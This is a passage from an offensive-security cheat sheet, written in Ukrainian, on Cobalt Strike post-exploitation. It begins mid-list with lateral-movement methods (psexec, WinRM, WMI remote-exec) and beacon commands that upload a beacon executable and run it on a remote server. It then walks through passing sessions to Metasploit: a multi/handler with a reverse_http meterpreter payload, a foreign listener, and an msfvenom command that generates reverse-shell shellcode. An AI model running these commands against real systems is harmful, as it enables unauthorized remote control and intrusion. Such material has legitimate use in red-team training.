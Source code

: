 ## winrm                     x86   Запустіть скрипт PowerShell через WinRM
## winrm64                   x64   Запустіть скрипт PowerShell через WinRM
## wmi_msbuild               x64   wmi бічний рух з msbuild вбудованим завданням c# (oppsec)

remote-exec [method] [target] [command] # remote-exec не повертає виходу
## Методи:
## psexec                          Віддалене виконання через Менеджер керування службами
## winrm                           Віддалене виконання через WinRM (PowerShell)
## wmi                             Віддалене виконання через WMI

## Щоб виконати маяк з wmi (це не в команді jump), просто завантажте маяк і виконайте його
beacon> upload C:\Payloads\beacon-smb.exe
beacon> remote-exec wmi srv-1 C:\Windows\beacon-smb.exe

# Pass session to Metasploit - Through listener
## На хості metaploit
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_http
msf6 exploit(multi/handler) > set LHOST eth0
msf6 exploit(multi/handler) > set LPORT 8080
msf6 exploit(multi/handler) > exploit -j

## На cobalt: Listeners > Add і встановіть Payload на Foreign HTTP. Встановіть Host на 10.10.5.120, Port на 8080 і натисніть Save.
beacon> spawn metasploit
## Ви можете запускати лише x86 Meterpreter сесії з іноземним слухачем.

# Pass session to Metasploit - Through shellcode injection
## На хості metasploit
msfvenom -p windows/x64/meterpreter_reverse_http LHOST=<IP> LPORT=<PORT> -f raw -o /tmp/msf.bin
## Запустіть msfvenom і підготуйте слухача multi/handler

